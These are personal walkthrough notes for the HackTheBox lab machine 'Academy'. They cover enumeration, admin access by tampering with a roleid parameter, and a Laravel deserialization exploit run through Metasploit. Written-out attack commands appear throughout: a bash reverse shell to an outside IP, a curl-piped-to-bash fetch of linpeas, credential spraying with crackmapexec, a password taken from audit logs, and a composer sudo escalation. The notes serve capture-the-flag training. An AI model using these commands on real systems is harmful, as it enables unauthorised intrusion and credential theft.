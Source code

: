## Notes for the HachTheBox machine, Academy.
---------------------------------------------

### Academy.
------------
1. We start as always be nmap, we run it with sudo, cause nmap likes it, add `-v` also to see also ports as we go:
    - `sudo nmap -v -sC -sV -oA nmap/academy 10.10.10.215` 
    we do also allports version, just so if we need it along the way:
    - `sudo nmap -p- -v -sC -sV -oA nmap/academy-allports 10.10.10.215` 

2. While namp if finishing up, in the browser we go to the tcp port of 80, namely: `10.10.10.215:80`, we
    see that it's getting redirected to `academy.htb` and failing to load.

3. We get the header of the ip with `curl`:
    - `curl -v 10.10.10.215`
    we see that we make a GET http request, we get 302, which is a redirection.
    also we see that it's an Apache server, and the location is `http://academy.htb`,
    so we add it to our local `/etc/hosts/` file.

4. After adding the ip to hosts file, we try several files, e.g. `http://academy.htb/robot.txt`, `index.html`, `index.php`.
    and we find that the php one works, with some links to register and login, so the website is a php one. 

5. We do some enumeration on the different urls which may exists with `gobuster`:
    - `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -u http://academy.htb -o gobuster/dir-root.log`
        note that `-x` is for extension and `-u` is for url, and `-w` is for wordlist.
    now we do another gobuster, this time for vhost:
    -  `gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://academy.htb -o gobuster/vhost-sub.txt`

6. While these reckons are running we try the `login` function and try out some default user and password, nothing works, so we send this to 
    burpsuit. We intercept the login request, try to inject the password manually with usuall characters, nothin works. Then we try the `sqlmap` 
    to see if any SQL injection would work. We copy the request from burpsuit to a file, then:
    - `sqlmap -r requests/login.req --batch` 
    all tests fail!
    we also try a higher level with higher risk:
    - `sqlmap -r requests/login.req --batch --level 5 --risk 3`

7. nmap found another port, 33060, which says it's a mysql database port. We try to see if we can login to the database:
    - `mysql -u root -p -h 10.10.10.215:33060`
    we don't enter the password. But we get a Unknown MySQL server host. Probably it's not a mysql port!
    we can netcat the local mysql server to compare it with this one:
    - `nc localhost 3306` 
    we see that it gives a MariaDB thing. which if we `nc` the remote one, it gives nothing.
    we take another root...

8. We take a look at the register functionality, we register a user, login, and take a look around. It's seems all static, javascript content. 
    We don't seem to make requests when we click on some funcitonalities inside tha academy. The username seems to be hardcoded. 

9. We take a look to the `gobuster` directory  listings. We see bunch of endpoints that don't return 403 not found:
    - `cat root-dirs.txt | grep -v 403`
    we see two interesting points: `config.php` and `admin.php`. `academy.htb/config.php` is a blank page, which is typical of php configs, we take
    a look to the source of the page also, to see if there any comments or something, there is nothing.

10. We register an admin user with a space at the end, to see if we can confuse the register function. We also intercept the registration. 
    We see that in the request we also have a hidden `roleid` parameter.

11. There is an interesting volunerability that we can register users with admin and a spaces after it, this is in iteself intersting, because 
    we can for example, appear in message boards with a username admin but space at the end won't be displayed. Here but the username is hardcoded.

12. Now we register a a user, but we intercept it and change the `roleid` parameter from 0 to 1. Now we test it in `admin.php` and voilla we get 
    a deck of status. We see one intersting message that there is a pending fixing on `dev-staging-01.academy.htb`, we add this to our hosts file,
    and we check it.

13. `dev-staging-01.academy.htb` is a Laravel error page. By looking around we see bunch of variables set, including database username and password,
    app-key and etc. We use the `searchsploit` to see if we have anything working for Larvavel:
    - `searchsploit laravel`
    we have an intersting one with `metasploit`, we fire up the metasploit and use it and set the required variables with these envs:
    - `sudo msfdb run`
    - `search laravel`
    - `use 0`
    - `show options`
    - `set APP_KEY ...`
    - `set Proxies http:127.0.0.1:8080`
    - `set RHOST dev-staging-01.academy.htb`
    - `set VHOST dev-staging-01.academy.htb`
    - `set LHOST tun0`
    - `set LPORT 9001`
    - `run`
and voilla we get a shell!
    
14. The way we `metasploit` does it, is not a magic, if we look at the Burp Suits, the requst sent has a cross site request forgery tocken, so if 
    we take a look at:
    - `echo -n <token> | base64 -d`
     we get a key-value dictionary, we use `sed` to replace commas with a new line:
    - `echo -n <token> | base64 -d | sed 's/,/\r\n/g'`
    we get `iv`, `mac` and a `value` key. 


15. If we take a look to the value token, and decrypt it using `base64 -d` and pass it to `entropy`:
    - `echo -n <token> | base64 -d | ent`
    we get: Entropy = 7.467030 bits per byte.
    if it was completely random we would get 8 bits per byte, for a normal ASCII file, the entropy is 
    usuall around 4.5 

16. As the token is sent to the ip address, and nothin else, the token probably is encrypted with the app key.
    we look around in web and see that Laravel makes use of AES-256-CBC cipher. We use an online tool (cyberchef) to decrypt 
    it to a readable text. We can see that it's doing a php deserialization. Probably the exploit is a deserialization volunerability.


17. We use python to get a regular bash shell:
    - `python3 -c 'import pty;pty.spawn("/bin/bash")'`

18. We try to login to mysql database with the information we got from the error page of Laravel:
    - `mysql -u homestead -D homestead -p -H localhost`
    it's being denied!


15. We successfully get a reverse shell! Now we get a nice bash, as we don't know we can get a clean terminal with metasploit we run a 
    standard reverse shell inside the metasploit given prompt over the machine:
    in another teminal:
    - `nc -lvnp 9001`
    then inside the metasploit given shell:
    - `bash -c 'bash -i >& /dev/tcp/10.10.16.6/9001 0>&1'`
    we get the shell with netcat, now inside it we do, just remeber before the netcat command exectuion in this terminal we must be on a standard 
    bash shell as opposed to default zsh terminal of kali, so before running netcat, we do: `exec bash --login`,
    note that there shouldn't be a slash after `/bin/bash` -> Of course (bash is an executable!),
    - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
    now we do `CTRL+z` to exit this temrinal, then we do:
    - `stty raw -echo`
    then we bring netcat to forward:
    - `fg`
    note that it may not output the command, but it's there, so just type `fg`, and then we have our nice shell with arrow and TAB functionality,
    we can also do, `export TERM=xterm` to get the `clean` command.
    note that if the cursor is doing weird stuff, like going over some text, probably the size of stty is not correct, in another terminal do,
    - `stty -a`
    get the row and column size and then inside the reverse shell, do:
    - `stty rows <row-number> cols <column-number>`

16. As we are not successful in login to the databse, we do a grep for the password in the config directory of the `dev-staging-01` home. 
    we see that it's pulling username and password from the environment variables.
    if we cat the `.env` file we see bunch of vars, but the username and the password are the same as before.

17. We take a look also to the `academy` homepage, and cat the `.env` file and try to login to the database with that username and password.
    it's also denied! We check if the database is running by taking a look to the ports:
    - `ss -lntp`
    3306 is there but there is also 33060 which is not clear what it is.

18. Let's see if we can ssh with the password we got from `.env` file inside the `academy` direcotry, we save the passwod to `pw` file,
    then we look the users in home `/home`, see if there is something writable (which means we have access to):
    - `find /home -writable -type f 2>/dev/null`
    we get nothig, we do ls with find:
    - `find /home -ls -type f 2>/dev/null`
    we see that `.bash_history` is directed to `/dev/null`, we get users from `/etc/passwd` that have a login shell of `sh` or `bash`:
    - `grep sh /etc/passwd | awk -F : '{print $1}'`
    we save these users to a `users` file.

19. We use `CrackMapExec` to see if ssh works with any of these users:
    - `crackmapexec ssh academy.htb -u users -p pw`
    one user works, we ssh into the machine!

20. We take a look around the logs, blah blah, we come across the `audit` directory, which contains audit logs, which are XML-based files that 
    contain the specific configuration, file permissions, and access control tests to be performed. 
    We take a report of these with `auditreport`:
    - `aureport`
    we take a look to `tty`'s also, with:
    - `aureport --tty`
    we see a user `mrb3n` and a thing that looks a password that probably got pasted by mistake, `mrb3n_Ac@d3my!`.

21. We login with `mrb3n` user and run the  `linpeas.sh` script over curl:
    - `su mrb3n`
    - `curl 10.10.16.6:8000/linpeas.sh | bash`

22. To save time we ssh into the machine with mrb3n user and take a look to the files owned by this user:
    - `ssh mrb3n@10.10.10.215`
    - `find / -user mrb3n 2>/dev/null | grep -v 'proc\|run\|sys'`
    we don't want to see the files regarding the `proc` or `run` or `sys`.

23. We see a composer cache file, we do a  `sudo -l` with the found password, we see that we can run the `composer` with sudo privileges. 
    We go over `gtfobins` and find a script for a script related to composer that gives a sudo shell. We just run it and voilla, root!!


